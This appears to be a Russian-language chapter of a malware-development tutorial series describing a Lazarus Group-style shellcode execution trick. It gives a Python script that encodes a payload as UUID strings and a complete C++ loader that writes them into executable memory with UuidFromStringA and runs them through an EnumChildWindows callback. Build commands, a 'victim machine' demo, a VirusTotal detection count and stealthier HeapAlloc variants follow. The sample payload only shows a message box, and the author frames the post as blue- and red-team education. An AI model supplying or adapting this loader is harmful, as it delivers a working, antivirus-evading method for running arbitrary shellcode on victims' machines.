







\newpage
\subsection{35. Трюки разработки вредоносного ПО. Запуск шелл-кода в стиле Lazarus Group. Пример на C++.}

﷽

{width="80%"}    

Эта статья является результатом моего собственного исследования ещё одного интересного приёма: запуск полезной нагрузки через `UuidFromStringA` и, например, `EnumChildWindows`.    

### UuidFromStringA

Эта функция преобразует строку в UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

Без использования стандартных функций, таких как `memcpy` или `WriteProcessMemory`, эту функцию можно использовать как для декодирования данных, так и для их записи в память.     

Техника выполнения шелл-кода включает следующие шаги:

- Выделение памяти с помощью `VirtualAlloc`    
- Использование `UuidFromStringA` для преобразования UUID-строк в их двоичный формат и сохранения в памяти    
- Использование `EnumChildWindows` (или `EnumDesktopsA`, либо другого подходящего метода) для выполнения ранее загруженной в память полезной нагрузки      

### Практический пример

Рассмотрим практический пример. Этот трюк довольно прост, он схож с [предыдущими](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) приёмами, но с некоторыми изменениями, характерными для Lazarus Group.     

Сначала нам нужен скрипт для преобразования полезной нагрузки в допустимые строки UUID. Например, такой (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # читаем 16 байтов из нашего входного бинарного файла
    chunk = f.read(16)
    while chunk:
        # если в блоке менее 16 байтов, дополняем разницу (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

Как обычно, я буду использовать полезную нагрузку с сообщением "meow-meow": `meow.bin`.

Запуск:

```bash
python3 payload_uuid.py -p meow.bin
```
{width="80%"}    

Поскольку теперь у нас есть полезная нагрузка в формате UUID, мы можем создать код доказательства концепции (PoC) для тестирования следующего:

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000,
  PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Обратите внимание на функцию `UuidFromStringA`. Как я уже писал ранее, вызов этого API с указателем на память вместо указателя на UUID приведёт к тому, что двоичное представление заданного UUID будет сохранено в памяти.     

Связывая множество API-запросов и передавая корректно сформированные UUID, можно загрузить необходимое содержимое (полезную нагрузку) в выбранную область памяти.   

А затем, в качестве указателя на функцию обратного вызова в `EnumChildWindows`, мы указываем этот участок памяти:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

или другую функцию `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### Демо

Давайте посмотрим, как всё работает на практике. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

{width="80%"}    

Запускаем на машине жертвы:    

```powershell
.\hack.exe
```

{width="80%"}    

Чтобы убедиться, что наша полезная нагрузка действительно запущена, можно немного изменить код:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Затем снова компилируем:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

{width="80%"}    

и снова запускаем:   

```powershell
.\hack.exe
```

{width="80%"}    

Как видно, всё работает идеально! :)    

Загружаем `hack.exe` на VirusTotal:    

{width="80%"}    

**Итак, 6 из 68 антивирусных движков обнаруживают наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

Есть один нюанс. Lazarus Group использует функции `HeapCreate` и `HeapAlloc` вместо:

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` — это часто используемый API-вызов для выделения памяти в куче.    
Этот API позволяет выделять указанные объемы памяти в куче, в отличие от блоков памяти, полученных с помощью `VirtualAlloc`.
Однако, согласно документации, `HeapAlloc` всё же может вызывать `VirtualAlloc`, если это необходимо.    

Также у него есть преимущество: этот API не выглядит таким подозрительным.    

Кроме того, Lazarus Group использует функцию `EnumSystemLocalesA` для выполнения полезной нагрузки.    

Я надеюсь, что этот пост повысит осведомлённость синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.    

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-07-21-malware-tricks-22)    
